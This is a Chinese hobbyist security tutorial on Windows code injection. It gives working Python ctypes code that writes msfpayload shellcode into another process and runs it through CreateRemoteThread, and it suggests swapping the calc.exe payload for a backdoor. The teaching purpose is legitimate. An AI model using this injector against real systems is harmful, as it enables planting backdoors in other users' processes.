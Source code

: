 # Python编写shellcode注入程序

0x00 背景
=======

* * *

本文为《小学生科普系列》的番外篇，本系列面向小学生，纯科普，大牛莫喷~

教程中所有内容仅供学习研究，请勿用于非法用途，否则....我也帮不了你啊...

说起注入，大家第一印象可能还习惯性的停留在sql注入，脚本注入（XSS）等。今天light同(jiao)学(shou)带大家从web端回到操作系统，一起探讨Windows下的经典注入——内存注入，使用python编写一个简单的代码注入程序。

内存注入常见的方法有dll注入和代码注入。Dll注入通俗地讲就是把我们自己的dll注入到目标进程的地址空间内，“寄生”在目标进程里执行。Dll注入需要另外一个“推进器”程序将我们的“寄生虫”dll“注”进目标进程中。

代码注入和dll注入的思路一致，只是“寄生虫”代码与“推进器”代码在同一个程序里面。

Dll文件:windows动态链接库。在Windows中，许多应用程序并不是一个完整的可执行文件，它们被分割成一些相对独立的动态链接库，即DLL文件，放置于系统中。当我们执行某一个程序时，相应的DLL文件就会被调用。

这次我们的实验选取“代码注入”这一课题。废话不多说，开始动手！

0x01 准备工作
=========

* * *

写python的小程序，light同学推荐性感的Sublime text2 +JEDI（python自动补全插件）。

首先安装sublime text2的“插件管理”插件package control：

打开sublime后，组合键“ctrl+~”调出控制台，将以下代码粘贴进命令行中并回车：

```
import urllib2,os;pf='Package Control.sublime-package';ipp=sublime.installed_packages_path();os.makedirs(ipp) if not os.path.exists(ipp) else None;open(os.path.join(ipp,pf),'wb').write(urllib2.urlopen('http://sublime.wbond.net/'+pf.replace(' ','%20')).read())

```

安装完毕后重启sublime text2，输入Ctrl + Shift + P 然后输入Install Package

![enter image description here](http://drops.javaweb.org/uploads/images/880b6fc8e846f242d92e3ebfd88f86b60780f36f.jpg)

然后输入“jedi”，回车安装。

![enter image description here](http://drops.javaweb.org/uploads/images/39282efb90f84555868946858f8d080608ded900.jpg)

磨刀不误砍柴工，装好插件，我们开始正式撸代码。

0x02 烹饪开始
=========

* * *

原料：win7、python27、sublime text2、msfpayload

必备技能：windows api 基础、python基础、metasploit基础（这个还不会的赶快去这里补习！http://zone.wooyun.org/content/17377）

这次的注入代码主要借助了python的ctypes库，这个库使得python可以直接调用windows API，非常方便。“为什么不用c或者c++？”，因为我手头边只有一本《gray hat python》。

```
#-*- coding:utf-8 -*-
#导入sys库以及ctypes库
import sys
from ctypes import *

PAGE_EXECUTE_READWRITE  =  0x00000040
PROCESS_ALL_ACCESS  =  ( 0x000F0000 | 0x00100000 | 0xFFF )
VIRTUAL_MEM  =  ( 0x1000 | 0x2000 )

kernel32  =  windll.kernel32
pid  =  int(sys.argv[1])

if not sys.argv[1]:
    print "Code Injector: ./code_injector.py <PID to inject>"
    sys.exit(0)

# shellcode使用msfpayload生成的，我这里是一个计算器，当然你可以直接生成一个后门程# 序。生成代码：msfpayload  windows/exec  CMD = calc.exe  EXITFUNC=thread  C　
shellcode = ("\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2"
"\xf0\x52\x57\x8b\x52\x10\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85"
"\xc0\x74\x4a\x01\xd0\x50\x8b\x48\x18\x8b\x58\x20\x01\xd3\xe3"
"\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31\xc0\xac\xc1\xcf\x0d"
"\x01\xc7\x38\xe0\x75\xf4\x03\x7d\xf8\x3b\x7d\x24\x75\xe2\x58"
"\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b"
"\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff"
"\xe0\x58\x5f\x5a\x8b\x12\xeb\x86\x5d\x6a\x01\x8d\x85\xb9\x00"
"\x00\x00\x50\x68\x31\x8b\x6f\x87\xff\xd5\xbb\xaa\xc5\xe2\x5d"
"\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0\x75"
"\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5\x63\x61\x6c\x63"
"\x2e\x65\x78\x65\x00")

code_size = len(shellcode)

# 获取我们要注入的进程句柄
h_process = kernel32.OpenProcess( PROCESS_ALL_ACCESS, False, int(pid) )

if not h_process:
    print "[*] Couldn't acquire a handle to PID: %s" % pid
    sys.exit(0)

# 为我们的shellcode申请内存
arg_address = kernel32.VirtualAllocEx( h_process, 0, code_size, VIRTUAL_MEM, PAGE_EXECUTE_READWRITE)

# 在内存中写入shellcode
written = c_int(0)
kernel32.WriteProcessMemory(h_process, arg_address, shellcode, code_size, byref(written))

# 创建远程线程，指定入口为我们的shellcode头部
thread_id = c_ulong(0)
if not kernel32.CreateRemoteThread(h_process,None,0,arg_address,None,0,byref(thread_id)):
    print "[*] Failed to inject shellcode. Exiting."
sys.exit(0)

print "[*] Remote thread successfully created with a thread ID of: 0x%08x" % thread_id.value

```

句柄：句柄与普通指针的区别在于，指针包含的是引用对象的内存地址，而句柄则是由系统所管理的引用标识，该标识可以被系统重新定位到一个内存地址上。这种间接访问对象的模式增强了系统对引用对象的控制。

可以看到，之所以能进行内存注入，主要归功于windows开放的一个关键api：CreateRemoteThread。这个函数允许我们创建一个在其它进程地址空间中运行的线程(也称：创建远程线程)。

而整个注入过程可以划分为三个步骤：获取目标进程句柄，把shellcode写入内存，创建远程线程。这也是内存注入的基本原理和机制。

在使用msfpayload生成shellcode时，有两个坑需要大家注意。

坑一： Msfpayload生成shellcode时，不能使用msfencode，有些资料告诉我们生成shellcode时要在后面加上 msfencode -b ‘\x00’ 来避免空字，但是msfencode一旦使用，默认就会使用 x86/shikata_ga_nai 等编码器对shellcode编码一次。这里light同学推荐大家用 msfpayload xxx C的方式来生成纯净的shellcode。

坑二：

msfpayload windows/exec CMD = calc.exe C　

直接生成的shellcode执行结果是宿主100%崩溃，简直就是进程杀手。我在测试过程中，把用来测试的百度云管家崩的天昏地暗。这个坑花了好久才跳出来。

后来号基友用ollydbg调试发现shellcode退出时直接exit process，把整个进程都结束了。

![enter image description here](http://drops.javaweb.org/uploads/images/7980f9215e5aea73846709d5d523fa5e04ed41f4.jpg)

在基友热心帮助下，再参考msfpayload官方文档后顿悟，果断修改EXITFUNC的值为thread（默认为process）：

![enter image description here](http://drops.javaweb.org/uploads/images/729dcda4b394cef05bb1e8b88b6b2afa97ac5c17.jpg)

测试成功！

![enter image description here](http://drops.javaweb.org/uploads/images/dcaab6e3db9508a19ba27f254b9c3cc68ac49b19.jpg)

最后，我们可以把这个python脚本用py2exe打包成exe可执行文件。有兴趣的话还可以加上UI，做成一个可以定制不同注入类型（dll或代码注入）、注入代码（反向后门或恶作剧程序）的程序。

任何问题或者好的建议请骚扰：root@1ight.co

参考文档：

《gray hat python》

http://www.offensive-security.com/metasploit-unleashed/Msfpayload

http://www.google.com